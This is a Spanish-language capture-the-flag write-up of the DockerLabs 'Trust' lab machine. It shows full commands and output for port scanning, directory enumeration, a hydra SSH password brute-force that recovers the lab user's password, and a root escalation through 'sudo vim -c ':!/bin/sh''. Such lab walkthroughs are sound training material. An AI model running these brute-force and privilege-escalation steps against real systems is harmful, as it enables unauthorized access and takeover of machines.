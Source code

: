 #Trust DockerLabs - 13/05/2024

#web - https://dockerlabs.es/#/

Empezamos realizando un escaneo básico con nmap.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2                                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 22:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds

```

Aquí encontramos un puerto 22 y un puerto 80 me meto en la direccion web "http://172.17.0.2/" y se ve que es una pagina de apache:

![Captura de pantalla 2024-05-13 224854](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/44dee495-8746-4af4-94f8-e41c76ea6cf1)

Buscamos subdominios con gobuster

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              bak,php.bak,php,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 813927 / 1323366 (61.50%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 818325 / 1323366 (61.84%)
===============================================================
Finished
===============================================================
                                                                 
```

Encontramos un ficher .php llamado "secret.php" accedo a este fichero y se ve una pagina donde habla de un usuario "mario":

![Captura de pantalla 2024-05-13 225146](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/5b429c97-e09e-4c60-b278-b66b21533728)

Hacemos un ataque de fuerza bruta con hydra hacia el servidor ssh con el usuario "mario":

```shell
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-13 22:36:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-13 22:36:26           
```

Nos encuentra una contraseña para el usuario mario la probamos y vemos que nos deja entrar:

```shell
└─$ ssh mario@172.17.0.2               
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux eb21e3cbaf4b 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21

```

```shell
mario@eb21e3cbaf4b:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on eb21e3cbaf4b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on eb21e3cbaf4b:
    (ALL) /usr/bin/vim

```

Vemos que podemos escalar privilegios a traves del binario /usr/bin/vim.
Entramos en "https://gtfobins.github.io/#" una pagina web dedicada a la explotacion de estos bins entre otras cosas.
Buscamos "vim" y entramos en "sudo".
Procedemos con la escalada de privilegios:

![Captura de pantalla 2024-05-13 225938](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/9064fe61-5dda-4bf0-b772-66125e1afe4e)

![Captura de pantalla 2024-05-13 225938](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/9064fe61-5dda-4bf0-b772-66125e1afe4e)

Ejecutamos el comando y vemos que ya somos root:

```shell
mario@eb21e3cbaf4b:~$ sudo vim -c ':!/bin/sh'

```

```shell
# whoami
root

```
